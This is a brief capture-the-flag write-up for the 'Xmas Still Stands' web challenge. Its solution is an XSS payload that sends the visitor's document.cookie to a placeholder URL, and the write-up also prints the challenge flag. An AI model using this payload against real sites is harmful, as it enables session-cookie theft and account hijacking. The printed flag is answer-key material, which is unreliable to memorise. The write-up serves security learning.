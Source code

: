 # [Web] Xmas Still Stands

> Points: 50
> Solves: 484

## Description

You remember when I said I dropped clam's tables? Well that was on Xmas day. And because I ruined his Xmas, he created the [Anti Xmas Warriors](https://xmas.2020.chall.actf.co) to try to ruin everybody's Xmas. Despite his best efforts, Xmas Still Stands. But, he did manage to get a flag and put it on his site. Can you get it?

## Solution

An easy XSS.

payload: `<img src=x onerror="window.location='url?cookie=' + document.cookie">`

Flag `actf{s4n1tize_y0ur_html_4nd_y0ur_h4nds}`
